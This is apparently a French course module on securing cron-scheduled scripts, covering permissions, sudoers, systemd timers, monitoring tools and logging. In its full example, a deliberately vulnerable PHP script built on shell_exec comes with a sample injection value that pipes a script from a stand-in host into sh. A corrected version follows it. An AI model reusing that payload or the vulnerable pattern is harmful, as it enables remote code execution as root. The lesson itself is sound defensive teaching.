## Permissions du script planifié {seance="5" diapos="38-42, 63, 67-71, 74-77, 82-84"}

Voici l'angle mort du cours, et il annule à lui seul tout le reste : **un script exécuté par la
crontab de `root` hérite de tous les privilèges de `root`**. La question n'est donc pas seulement
« que fait ce script ? », mais « qui peut le modifier avant sa prochaine exécution ? ».

Un script en permissions `777` lancé par `root` chaque minute est une élévation de privilèges
immédiate : n'importe quel compte du serveur — dont `www-data`, donc quiconque parvient à écrire un
fichier via l'application — y ajoute une ligne et devient `root` à la minute suivante. Ce n'est pas
un scénario théorique : c'est le chemin le plus court entre « une faille d'envoi de fichier » et
« le serveur est perdu ».

```bash
sudo chown root:root /opt/scripts/surveillerApache.php
sudo chmod 700       /opt/scripts/surveillerApache.php
sudo chmod 755 /opt /opt/scripts    # chaque répertoire du chemin, pas seulement le fichier
ls -ld /opt /opt/scripts /opt/scripts/surveillerApache.php
```

La troisième ligne est celle qu'on oublie. Protéger le fichier ne sert à rien si un répertoire du
chemin est inscriptible par le groupe ou par tout le monde : on ne modifie alors pas le script, on
le **remplace en entier**. Le même raisonnement vaut pour tout fichier de configuration que le
script lit, et pour `/etc/cron.d/` — un fichier déposé là est exécuté avec le compte qu'il nomme
lui-même.

Le moindre privilège appliqué à une tâche planifiée tient en trois décisions :

1. **Exécuter le script sous un compte de service dédié**, pas sous `root`. La crontab de ce compte
   se modifie avec `sudo crontab -u svc-surveillance -e`.
2. **Si une seule commande exige `root`, l'accorder chirurgicalement** par le fichier `sudoers` :
   `svc-surveillance ALL=(root) NOPASSWD: /usr/bin/systemctl start apache2`. Jamais
   `NOPASSWD: ALL`, et jamais un binaire acceptant des arguments arbitraires — `systemctl` tout
   court permettrait de démarrer, d'arrêter et de masquer **n'importe quel** service. La séance 5
   donne d'ailleurs `alex ALL=(root) /usr/bin/systemctl *` en exemple de **syntaxe** : l'astérisque
   y sert à montrer la grammaire du champ « commande », il n'est pas un modèle de règle à recopier.
3. **Aucun mot de passe en clair dans le script** : variable d'environnement définie en tête de
   crontab, ou fichier en `600` appartenant au compte de service.

## Alternatives et arbitrages {hors-cours}

`cron` n'est pas la seule façon de déclencher une tâche, et un script maison n'est pas la seule
façon de surveiller. Cette section existe pour que tu saches **quand ce que tu viens d'apprendre
n'est plus le bon outil**.

### Quatre façons de planifier {hors-cours}

| Critère | `cron` | Timers `systemd` | Planificateur applicatif | Service managé |
| --- | --- | --- | --- | --- |
| Disponibilité | tout Unix | toute distribution `systemd` (Debian 8 et plus, Ubuntu 15.04 et plus, RHEL 7 et plus) | dépend du cadriciel | dépend de l'hébergeur |
| Syntaxe | 5 champs, compacte, universelle | `OnCalendar=`, verbeux mais validable | code versionné avec l'application | console ou infrastructure as code |
| Journalisation | à faire soi-même (`>>`, `2>&1`) | **intégrée** (`journalctl -u tache.service`) | journaux applicatifs | journaux de la plateforme |
| Exécution manquée | perdue | **rattrapée** (`Persistent=true`) | selon l'implémentation | selon le service |
| Anti-chevauchement | `flock` à ajouter | natif | souvent fourni | souvent natif |
| Isolation des ressources | aucune | `MemoryMax=`, `PrivateTmp=`, `ProtectSystem=` | aucune | quotas du service |
| Sous la minute | impossible | `OnUnitActiveSec=30s`, à condition d'ajouter `AccuracySec=1s` (défaut : 1 min) | oui | rarement |
| Coût de mise en place | une ligne | deux fichiers | déjà là si le cadriciel l'est | configuration et facturation |

Les deux premières colonnes sont **la même tâche par deux chemins**, et il vaut la peine de les voir
côte à côte sur un cas unique : planifier la purge à 3 h 15, chaque jour, avec un journal relisable.

La méthode du cours tient en **une ligne** de crontab — ouverte par `crontab -e`, relue par
`crontab -l` — et elle te laisse écrire toi-même la redirection `>>`, le `2>&1` et le verrou `flock`,
les trois gestes qu'aucun outil ne fait à ta place ici. Tu vérifies ensuite que la tâche part en
laissant tourner `tail -f` sur le journal.

Un timer `systemd` s'écrit en **deux fichiers** déposés dans `/etc/systemd/system/`. Le premier,
d'extension `.service`, décrit **quoi** exécuter : un `Type=oneshot`, l'utilisateur sous lequel
tourner (`User=www-data`), la commande (`ExecStart=/usr/bin/php /opt/app/scripts/purge.php reel`) et
les protections souhaitées (`PrivateTmp=true`, `ProtectSystem=strict`, `ReadWritePaths=/var/log/app`).
Le second, d'extension `.timer` et de même nom, décrit **quand** : `OnCalendar=*-*-* 03:15:00`,
`Persistent=true` pour rattraper l'exécution si la machine était éteinte à 3 h 15, et
`RandomizedDelaySec=300` pour éviter que cinquante serveurs frappent la base à la même seconde. On
les met en service avec `sudo systemctl daemon-reload`, puis `sudo systemctl enable --now
purge.timer` ; `systemctl list-timers` donne les prochaines exécutions et le dernier déclenchement,
et `journalctl -u purge.service -n 50` relit la sortie — il n'y a **aucune redirection à écrire**,
`journald` capte déjà tout.

Les trois lignes que `cron` t'oblige à écrire à la main — la redirection, le `2>&1` et le `flock` —
disparaissent donc, parce que le gestionnaire de services s'en charge. En contrepartie, deux fichiers
au lieu d'une ligne, et une syntaxe à apprendre. **À l'examen, la réponse attendue est `crontab`** ;
en production sur une distribution moderne, le timer est le choix par défaut raisonnable — constat
d'usage de 2026, et non une dépréciation : `cron` reste installé par défaut sur Debian comme sur
Ubuntu.

:::: methodes
::: methode {libelle="La méthode du cours — une ligne de crontab" defaut}
```bash
crontab -e
# 15 3 * * *  /usr/bin/flock -n /var/lock/purge.lock /usr/bin/php /opt/app/scripts/purge.php reel >> /var/log/app/purge.log 2>&1
crontab -l                        # relire la table telle qu'elle a été enregistrée
tail -f /var/log/app/purge.log    # la preuve que la tâche part vraiment
```
:::
::: methode {libelle="L'équivalent moderne — deux fichiers et un timer systemd"}
```bash
sudo vi /etc/systemd/system/purge.service   # Type=oneshot, User=, ExecStart=, ProtectSystem=strict
sudo vi /etc/systemd/system/purge.timer     # OnCalendar=*-*-* 03:15:00, Persistent=true
sudo systemctl daemon-reload
sudo systemctl enable --now purge.timer
systemctl list-timers                       # prochaines exécutions et dernier déclenchement
journalctl -u purge.service -n 50           # aucune redirection à écrire : journald capte tout
```
:::
::::

::: attention
**En conteneur, `cron` ne va pas de soi.** Un conteneur exécute un processus ; y installer `cron`
casse le modèle — deux processus, des journaux qui ne sortent plus sur la sortie standard, des
signaux mal propagés à l'arrêt. La réponse est un `CronJob` de l'orchestrateur, ou un conteneur
dédié lancé à l'heure voulue.
:::

### Surveiller : script maison ou outil déjà écrit {hors-cours}

| Solution | Ce qu'elle fait | Bonne pour | Sa limite |
| --- | --- | --- | --- |
| **Script maison** | exactement ce que tu codes | apprendre, un besoin très spécifique, un serveur | tout est à écrire — analyse, seuils, alertes, dédoublonnage, rotation — et personne ne le maintient après ton départ |
| **`fail2ban`** | lit les journaux et bannit temporairement via le pare-feu | force brute SSH, authentification HTTP, SMTP | réactif : ni historique ni tendance |
| **`logwatch`** | rapport quotidien lisible, envoyé par courriel | veille légère, audit humain | quotidien, donc trop tard pour réagir |
| **Netdata** | métriques en temps réel par serveur | diagnostic rapide, petite infrastructure | rétention courte, pas conçu pour agréger cent hôtes |
| **Prometheus, Zabbix** | collecte, historisation, seuils, alertes, tableaux de bord | flotte de serveurs, astreinte | une vraie infrastructure à opérer |

L'échelle à laquelle le script maison cesse de suffire se dit honnêtement. **Un serveur, projet
personnel** : le script maison est parfaitement légitime, ajoute-lui simplement un signal de vie.
**Dès qu'il y a des utilisateurs réels** : `fail2ban` remplace tout script maison de détection de
force brute — il est écrit, testé, maintenu, et il manipule le pare-feu correctement ; le réécrire
est une perte de temps doublée d'un risque. **De deux à cinq serveurs, ou dès qu'il y a une
astreinte** : supervision centralisée. Le moment où tu écris ton troisième script d'alerte par
courriel est celui où tu aurais dû installer un outil de supervision.

### Le langage du script {diapos="10, 47"}

| Critère | Bash | PHP en ligne de commande | Python |
| --- | --- | --- | --- |
| Idéal pour | enchaîner des commandes existantes, une vingtaine de lignes | réutiliser le code, la configuration et la base de l'application PHP | analyse complexe, API, tout ce qui dépasse cent lignes |
| Gestion d'erreurs | fragile (`set -euo pipefail` obligatoire) | exceptions et codes de retour | excellente |
| Chaînes et JSON | pénible | correcte | excellente |
| Déjà installé | toujours | si l'application est en PHP | presque toujours |
| Piège principal | citation des variables, mots séparés | fichier de configuration distinct en ligne de commande | environnements virtuels à gérer |

Le cours, lui, se contente de **nommer** les langages possibles — « PHP, Python, Bash, Perl, etc. »
aux diapositives 10 et 47 — sans jamais les comparer : le tableau ci-dessus vient de la base de
connaissances.

Le cours enseigne PHP parce que c'est le langage du programme et de l'application : c'est un choix
pédagogique valide, et c'est aussi le bon choix en pratique **quand le script a besoin de la base de
données et de la configuration de l'application** — la purge de l'exercice 5 en est l'exemple exact.
Pour enchaîner `systemctl`, `find` et `tar`, Bash est plus court et plus honnête. Pour de l'analyse
de journaux volumineux ou du dialogue avec des API, Python est le standard de l'exploitation.

### Quand ne PAS planifier une tâche {hors-cours}

- **L'événement est déclencheur, pas périodique.** « Quand un fichier arrive » relève d'un
  surveillant de répertoire (`inotify`, `systemd.path`) ou d'une file de messages, pas d'un sondage
  à la minute qui trouvera le fichier en moyenne trente secondes trop tard.
- **La tâche répond à une action de l'utilisateur.** File d'attente et travailleur dédié : quelques
  secondes de latence au lieu d'une minute au pire.
- **Un mécanisme dédié existe déjà.** `logrotate` pour la rotation des journaux,
  `unattended-upgrades` pour les mises à jour de sécurité, `Restart=on-failure` pour le redémarrage
  d'un service, l'expiration native de la base pour les données périmées. Réécrire l'un des quatre
  en `cron` est l'erreur classique de la séance.
- **La tâche dure plus longtemps que son intervalle.** C'est le découpage qu'il faut repenser, pas
  un `flock` de plus à empiler.
- **Personne ne lit le résultat.** Un rapport quotidien que personne n'ouvre est du bruit, et ce
  bruit masquera la vraie alerte le jour où elle arrivera.

## Exemple simple {diapos="21"}

Une tâche de ménage posée un vendredi soir, essayée une fois à la main, puis oubliée. Trois semaines
plus tard, personne ne peut dire si elle a tourné — et pourtant tout semblait en ordre, puisque
`cron` n'a jamais rien signalé.

:::: comparaison
::: vulnerable
```bash
*/30 * * * *  php menage.php > /var/log/menage.log
```

{lignes="1"} Le journal **existe** et il est **vide**. C'est le piège le plus retors de la ligne :
le shell ouvre le fichier de redirection **avant** de lancer la commande, donc `/var/log/menage.log`
est créé et vidé même quand `php` n'est jamais exécuté. Un fichier vide se lit comme « rien à
signaler », alors qu'il dit en réalité « rien n'a fonctionné ».

{lignes="1"} `php` et `menage.php` sont relatifs, et le message `php: command not found` part sur
`stderr`, qui n'est redirigé nulle part. L'unique preuve de la panne est un courriel local que
personne ne lit.

{lignes="1"} Même le jour où tout marche, la sortie du script est un `OK` sans date ni compte : on
ne peut pas distinguer « zéro fichier à supprimer » de « je n'ai pas pu ouvrir le répertoire ».
:::
::: corrige
```bash
*/30 * * * *  /usr/bin/php /opt/scripts/menage.php >> /var/log/mesScripts/menage.log 2>&1
```

{lignes="1"} Chemins absolus des deux côtés, `>>` pour conserver l'historique, `2>&1` pour que les
erreurs tombent dans le **même** fichier que le reste — les trois gestes vus plus haut, appliqués
ensemble.

{lignes="1"} Le répertoire `/var/log/mesScripts/` est créé une fois pour toutes et appartient au
compte qui exécute la tâche. Une redirection vers un répertoire inexistant échoue **avant** la
commande, donc silencieusement, exactement comme la colonne de gauche.
:::
::::

Il manque encore l'essentiel, et il ne se règle pas dans la crontab : c'est au **script** de rendre
son journal exploitable.

```php
<?php
$debut = microtime(true);
$supprimes = menagerLeRepertoireTemporaire();   // renvoie un entier, ou lève une exception
fwrite(STDOUT, sprintf(
    "[%s] menage : %d fichier(s) supprime(s) en %.2f s\n",
    date('c'), $supprimes, microtime(true) - $debut
));
exit(0);   // 0 = travail fait ; toute autre valeur = a examiner
```

Trois éléments seulement — un horodatage, un chiffre, un code de sortie — et le fichier devient
comparable d'un jour à l'autre. **Le silence de `cron` ne prouve pas le succès : il prouve
uniquement que rien n'a été écrit sur la sortie.** Une tâche muette et une tâche morte produisent
exactement le même journal.

## Exemple complet {diapos="48, 62"}

Un script d'entretien réaliste : archiver le répertoire d'un site, puis effacer les archives de
plus de trente jours. Le nom du site est un paramètre, parce qu'il y en a plusieurs sur la machine —
et c'est ce paramètre qui fait toute la différence entre les deux colonnes.

Le cours donne le scénario et la forme fautive, rien de plus : la diapositive 48 lance
`php /mesScripts/copieDeSauvegarde.php`, et la 62 explique un `shell_exec` sur une chaîne construite
— exactement la colonne de gauche. La liste blanche, `proc_open` avec un tableau et la lecture des
codes de retour de la colonne de droite viennent de la base de connaissances.

:::: comparaison
::: vulnerable
```php
<?php
// EXEMPLE VULNÉRABLE — à ne jamais reproduire
$site = $argv[1] ?? 'vitrine';
$horodatage = date('Ymd-Hi');
$archive = "/var/backups/{$site}-{$horodatage}.tar.gz";
shell_exec("tar czf $archive /var/www/$site");
shell_exec("find /var/backups -name '*.tar.gz' -mtime +30 -delete");
echo "sauvegarde de $site terminee\n";
```

{lignes="3"} L'entrée vient d'`$argv`, donc de la ligne de crontab — qui paraît sûre. Elle cesse de
l'être dès que le nom du site est lu ailleurs : un fichier de configuration, une table, une variable
d'environnement. La question n'est jamais « d'où vient cette valeur aujourd'hui », mais « qui peut
la changer demain ».

{lignes="6"} La faille. La chaîne est remise **au shell**, qui la découpe lui-même : un site nommé
`vitrine;curl http://exemple.invalide/x.sh|sh` exécute deux commandes au lieu d'une. Et comme cette
tâche vit dans la crontab de `root` pour lire tous les répertoires, la seconde s'exécute en `root`.

{lignes="7"} `shell_exec` renvoie la sortie, pas le succès. Si `find` échoue — répertoire absent,
disque plein — la fonction rend une chaîne vide, indiscernable d'un ménage qui n'avait rien à
supprimer.

{lignes="8"} Aucune date, aucun compte, aucun code de sortie : le journal de la veille et celui du
jour où l'archive était vide sont **identiques**.
:::
::: corrige
```php
<?php
$sites = ['vitrine' => '/var/www/vitrine', 'boutique' => '/var/www/boutique'];
$cle = $argv[1] ?? '';
if (!isset($sites[$cle])) { fwrite(STDERR, date('c') . " site inconnu\n"); exit(2); }

$archive = '/var/backups/' . $cle . '-' . date('Ymd-Hi') . '.tar.gz';
$proc = proc_open(['/bin/tar', 'czf', $archive, '--', $sites[$cle]], [2 => ['pipe', 'w']], $tuyaux);
$erreur = stream_get_contents($tuyaux[2]);
fclose($tuyaux[2]);
$code = proc_close($proc);

if ($code !== 0) { fwrite(STDERR, date('c') . " tar a echoue ($code) : $erreur\n"); exit(1); }
fwrite(STDOUT, date('c') . " archive $archive creee\n");
```

{lignes="2,3"} **Liste blanche** : l'entrée sert d'**index**, jamais de valeur. Le chemin réellement
employé est écrit dans le code ; ce que l'appelant fournit ne peut être qu'une clé connue ou une
erreur.

{lignes="4"} Le refus est explicite, daté, et sort avec un code non nul. Un script d'entretien qui
échoue doit le dire au système, pas seulement à un fichier texte.

{lignes="7"} `proc_open` avec un **tableau** : aucun shell n'est ouvert, donc `;`, `|`, l'accent
grave et `$( )` ne sont plus que des caractères ordinaires dans un argument. Le `--` termine la
liste des options, pour qu'un chemin commençant par `-` reste un opérande.

{lignes="10,12"} Le code de retour de `tar` est lu et interprété. C'est ce que `shell_exec` ne
permettait pas, et c'est la moitié du travail : agir sans savoir si l'action a réussi n'est pas de
l'automatisation.

{lignes="13"} Une ligne de succès **datée**, qui nomme l'archive produite. C'est elle qu'on relira
dans six mois pour répondre à « la sauvegarde du 3 avait-elle tourné ? ».
:::
::::

Le second `shell_exec` a purement disparu : la suppression des archives de plus de trente jours
s'écrit en PHP natif avec `glob()`, `filemtime()` et `unlink()`. Aucune commande externe, donc aucun
shell — le premier niveau de la hiérarchie établie plus haut, et celui qu'on oublie d'essayer.

Reste ce qui protège le script lui-même, et qui ne s'écrit pas en PHP :

```bash
sudo chown root:svc-sauvegarde /opt/scripts/archiver.php
sudo chmod 750 /opt/scripts/archiver.php    # exécutable par le service, modifiable par root seul
sudo chmod 755 /opt /opt/scripts            # aucun répertoire du chemin inscriptible par tous
sudo install -d -o svc-sauvegarde -g svc-sauvegarde -m 700 /var/backups
```

Le script n'exige aucun privilège de `root` : il lui suffit de lire `/var/www/<site>` et d'écrire
dans `/var/backups`. Il vit donc dans la crontab d'un compte de service —
`sudo crontab -u svc-sauvegarde -e` — et la ligne y reprend la forme de l'exemple simple, chemins
absolus et `>> … 2>&1` compris.

## À toi de jouer {hors-cours}

Les **sept exercices** de la feuille de la séance sont posés au fil de la leçon, chacun là où sa
notion vient d'être expliquée. Ils forment deux escaliers plutôt qu'une file, et il vaut mieux le
savoir avant de commencer.

Le premier escalier se monte **sur papier** : l'exercice 1 ne demande que d'écrire des expressions
`crontab` et de les relire. L'exercice 7 est la même compétence, augmentée de l'opérateur `a-b/n`
et de l'idée qu'une règle peut demander deux lignes — mais il se termine sur le serveur : tu
dupliques `heureActuelle.php`, tu poses les deux lignes et tu lis les deux rythmes alterner dans
`/scriptExerciceCours6/exercice7.log`.

Le second escalier se monte **sur le serveur**, et chaque marche suppose la précédente. L'exercice 2
produit le tout premier script en ligne de commande ; l'exercice 3 le confie à `cron` et fait
apparaître la différence entre `>` et `>>` — sans lui, les exercices suivants n'auraient aucun
journal à lire. L'exercice 4 franchit un cap : le script ne se contente plus d'observer, il
**relance** un service, donc il réclame les privilèges de `root` et une décision sur l'endroit où il
vit. Les exercices 5 et 6 sont deux versions du même travail de purge, le second n'ajoutant qu'un
filtre — mais un filtre qui apprend, en une clause `WHERE`, pourquoi une comparaison avec `NULL`
n'est jamais vraie en SQL. Pour tous ceux qui touchent au serveur, garde une seconde fenêtre sur `tail -f` de ton journal :
tu verras tes tâches se déclencher en direct au lieu de deviner si `cron` est passé.

Le quiz porte sur ce que l'examen est susceptible de demander : lire une expression `crontab`, dire
ce que fait `>` par rapport à `>>`, reconnaître le script de surveillance d'Apache et celui de la
purge, et choisir la parade juste face à une commande construite avec une entrée externe.

[[quiz]]

## À retenir {diapos="21, 55, 62, 66"}

- **Un script planifié qui ne laisse pas de trace n'est pas de la surveillance.** Redirection avec
  `>>` et `2>&1`, ou journalisation par le script lui-même, plus un code de retour qui distingue
  « rien à signaler » de « je n'ai pas pu travailler ». Un moniteur muet en panne est pire que pas
  de moniteur.
- **Teste l'état attendu, jamais l'état redouté.** `=== 'active'` plutôt que `== "inactive\n"` :
  toute réponse inhabituelle — sortie vide, `failed`, `null` — doit mener à la branche prudente, pas
  à la conclusion que tout va bien.
- **Un script qui supprime commence en mode simulation.** Compter avec le **même** filtre que le
  `DELETE`, journaliser le nombre de lignes concernées, ne détruire que sur argument explicite, et
  exporter avant le premier essai.
- **Dès qu'une variable entre dans une ligne de commande, change de forme.** Liste blanche, ou
  `proc_open` avec un tableau d'arguments, ou pas de commande du tout. `escapeshellarg` est le
  dernier recours, pas la première réponse.
- **Les permissions du script comptent autant que son code.** `chmod 700`, propriétaire `root`, et
  **chaque répertoire du chemin** vérifié : un script inscriptible lancé par `root` est une
  élévation de privilèges qui n'attend que sa minute.

## Aller plus loin {diapos="38, 68, 70"}

**Fiche de la base de connaissances**

- `web/securite/automatisation-surveillance-cron.md` — la fiche source de ce module : les cinq
  champs de `crontab` et leurs pièges, les trois emplacements de tâches, l'environnement de `cron`,
  `flock` et le signal de vie, PHP en ligne de commande, le code du cours transcrit verbatim avec
  ses corrections, les permissions, les parades à l'injection de commande, le comparatif complet des
  solutions de supervision et les corrigés des sept exercices.

**Les modules voisins de ce cours**

- La gestion du serveur — arborescence, `vi`, permissions — est le prérequis direct de cette
  séance : c'était la séance 2.
- L'accès distant par clé SSH et le pare-feu `ufw` ont été vus à la séance 3 ; c'est là que
  `fail2ban`, cité ici comme alternative au script maison, est traité pour lui-même.
- L'injection de commande système, esquissée ici, est un cas particulier de la famille des
  injections, traitée dans son propre module.
- La séance **5** enchaîne sur la sécurité des utilisateurs — comptes, `sudo` et le fichier
  `sudoers`, groupes, `ls -l`, `chmod` et `chown` : c'est là que se règlent pour de bon les
  permissions du script planifié et la règle `sudoers` de cette leçon.

**Sources originales citées par la fiche**

- *crontab(5)* — <https://man7.org/linux/man-pages/man5/crontab.5.html> : la référence normative du
  format, y compris `MAILTO`, `PATH`, `@reboot` et la règle du OU entre jour du mois et jour de
  semaine.
- *crontab.guru* — <https://crontab.guru/examples.html> : traduit une expression en langage courant
  et affiche les prochaines exécutions ; c'est l'outil que le cours recommande pour vérifier une
  expression **avant** de la déployer.
- *systemd.timer(5)* — <https://www.man7.org/linux/man-pages/man5/systemd.timer.5.html> et
  *systemd/Timers*, ArchWiki — <https://wiki.archlinux.org/title/Systemd/Timers> : `OnCalendar=`,
  `Persistent=true`, `RandomizedDelaySec=`, avec des exemples complets.
- *fail2ban* — <https://github.com/fail2ban/fail2ban> : l'outil à installer plutôt que d'écrire son
  propre script de détection de force brute.
- *shell_exec*, manuel PHP — <https://www.php.net/manual/en/function.shell-exec.php> : la référence
  citée par le cours ; lire aussi la note sur `disable_functions`.
